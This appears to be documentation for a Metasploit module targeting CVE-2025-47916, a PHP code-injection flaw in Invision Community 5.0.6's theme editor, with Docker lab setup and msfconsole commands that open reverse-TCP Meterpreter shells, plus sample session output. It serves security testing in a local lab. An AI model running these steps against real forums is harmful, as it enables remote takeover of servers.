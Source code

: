 ## Vulnerable Application

This Metasploit module exploits a remote-code injection in Invision Community ≤ 5.0.6 via the **theme editor**’s `customCss` endpoint:

* **CVE-2025-47916**: malformed `{expression="…"}` allows evaluation of arbitrary PHP expressions in the `content` parameter.

### To replicate a vulnerable environment

1. **Download the pre-built Docker lab** (includes `Dockerfile`, `docker-compose.yml` and the IPS 5.0.6 application):

```bash
wget https://archive.org/download/ips-5.0.6/IPS-5.0.6.zip -O ips_5.0.6_lab.zip
unzip ips_5.0.6_lab.zip
cd ips_5.0.6_lab
```

2. **Bring up the stack**:

```bash
docker-compose up -d
```

3. **Complete the installer** by browsing to [http://localhost:7777](http://localhost:7777).

   * You do **not** need a valid license key; you can enter any text and proceed.
   * Use database host `db`, user `ipsuser`, password `ipspass`, database `ipsdb`.

## Verification Steps

1. **Check the installed version**:

```bash
curl -s http://localhost:7777/admin/install/eula.txt | head -n5
```

Expected output:

```
=============================[NOTE]=============================
 Buy license at https://invisioncommunity.com/buy/self-hosted/
================================================================
 IPS 5.0.6 (5000074)
=============================[NOTE]=============================
```

2. **In `msfconsole`**, confirm the module’s `check` returns vulnerable:

```bash
use exploit/multi/http/invision_customcss_rce
set RHOSTS 127.0.0.1
set TARGETURI /
check
```

## Options

No option

## Scenarios

### PHP Meterpreter (in-memory)

```bash
use exploit/multi/http/invision_customcss_rce
set TARGET 0
set RHOSTS 127.0.0.1
set TARGETURI /
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
run
```

### Command Shell (ARCH_CMD)

```bash
use exploit/multi/http/invision_customcss_rce
set TARGET 1
set RHOSTS 127.0.0.1
set TARGETURI /
set payload cmd/linux/http/x64/meterpreter_reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
run
```

## Expected Results

With `php/meterpreter/reverse_tcp`:

```plaintext
msf6 exploit(multi/http/invision_customcss_rce) > run http://localhost:7777
[*] Exploiting target 127.0.0.1
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected IPS version: 5.0.6
[+] The target is vulnerable. IPS version 5.0.6 is vulnerable (≤ 5.0.6)
[*] Sending exploit to 127.0.0.1:7777 ...
[*] Sending stage (40004 bytes) to 172.30.0.3
[*] Meterpreter session 9 opened (192.168.1.36:4444 -> 172.30.0.3:34414) at 2025-05-20 18:13:55 +0200
[*] Session 9 created in the background.
msf6 exploit(multi/http/invision_customcss_rce) > sessions 9
[*] Starting interaction with 9...

meterpreter > sysinfo
Computer    : 01ed59644450
OS          : Linux 01ed59644450 6.14.6-2-cachyos #1 SMP PREEMPT_DYNAMIC Sat, 10 May 2025 20:09:10 +0000 x86_64
Meterpreter : php/linux
```

With `cmd/linux/http/x64/meterpreter_reverse_tcp`:

```plaintext
msf6 exploit(multi/http/invision_customcss_rce) > run http://localhost:7777
[*] Exploiting target 127.0.0.1
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected IPS version: 5.0.6
[+] The target is vulnerable. IPS version 5.0.6 is vulnerable (≤ 5.0.6)
[*] Sending exploit to 127.0.0.1:7777 ...
[*] Meterpreter session 7 opened (192.168.1.36:4444 -> 172.30.0.3:46552) at 2025-05-20 18:11:35 +0200
[*] Session 7 created in the background.
msf6 exploit(multi/http/invision_customcss_rce) > sessions 7
[*] Starting interaction with 7...

meterpreter > sysinfo
Computer     : 172.30.0.3
OS           : Debian 12.10 (Linux 6.14.6-2-cachyos)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
